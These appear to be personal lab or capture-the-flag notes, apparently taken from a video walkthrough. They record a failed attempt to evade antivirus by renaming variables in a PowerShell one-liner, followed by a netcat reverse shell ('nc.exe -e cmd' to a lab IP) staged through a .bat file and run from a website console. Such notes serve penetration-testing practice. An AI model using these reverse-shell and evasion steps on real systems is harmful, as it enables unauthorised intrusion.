 This was blocked by the AV. lul

![[Pasted image 20241216185808.png]]

Modifying one-liner to evade detection:
1. renamed function names from $sm to $PleaseSubscribe
2. Replacing $d with $likethisvideo
3. Try executing script in smaller segments


![[Pasted image 20241216190113.png]]
![[Pasted image 20241216190322.png]]
Gives up with AV evasion. 

Just gets reverse shell using netcat.. 

Copying nc.exe to `www` and curling it from nadine's shell is interesting method. 

![[Pasted image 20241216190638.png]]

![[Pasted image 20241216190657.png]]
Start netcat listener on parrot

![[Pasted image 20241216190745.png]]
From nadine's shell execute:

`nc.exe -e cmd 10.10.14.2 9001`

![[Pasted image 20241216190915.png]]

^ that was just a test to make sure netcat command was correct. want to run this command to the console command. 

`echo C:\temp\nc.exe -e cmd 10.10.14.2 9001 > pleasesub.bat`

Reset netcat listener. 

Execute PleaseSub from website console. 

Got reverse shell. 

![[Pasted image 20241216191246.png]]
